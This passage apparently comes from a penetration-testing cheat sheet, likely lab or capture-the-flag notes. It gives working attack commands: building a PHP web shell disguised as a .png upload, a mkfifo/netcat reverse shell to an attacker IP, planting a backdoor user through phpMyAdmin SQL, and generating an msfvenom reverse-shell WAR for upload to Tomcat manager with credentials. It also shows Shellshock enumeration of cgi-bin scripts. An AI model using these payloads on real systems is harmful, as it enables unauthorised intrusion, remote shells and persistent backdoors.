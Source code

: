 		echo 'passthru("whoami");' >> ./shell.php.png
		#echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 4444 >/tmp/f");' >> ./shell.php.png
			Or: echo 'system($_REQUEST["cmd"]);' >> ./shell2.php.png
		echo '?>' >> ./shell.php.png
		visit example.com/uploads/shell.php.png or example.com/uploads/shell.php.png?cmd=id

## Specific Applications/Vulnerabilities:  

	PHPMyAdmin:
		in sql console:  select * from webappdb.users;
		make a user:  insert into webappdb.users(password, username) VALUES (”backdoor“,”backdoor“);
	Tomcat Web Application Manger War Shell Upload:
		msfvenom -p java/shell_reverse_tcp lhost=10.10.14.18 lport=4444 -f war -o pwn.war
		***: curl -T "pwn.war" -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/miao&update=true"
		Or automate with:  https://github.com/mgeeky/tomcatWarDeployer
		python autowar.py http://10.10.10.95:8080 -U tomcat -P s3cret -H <attacking machine IP> -P 4321
	CGI-BIN Directory: look for .sh scripts (Shellshock vulnerability):
		dirb http://10.10.10.56/cgi-bin -X .sh
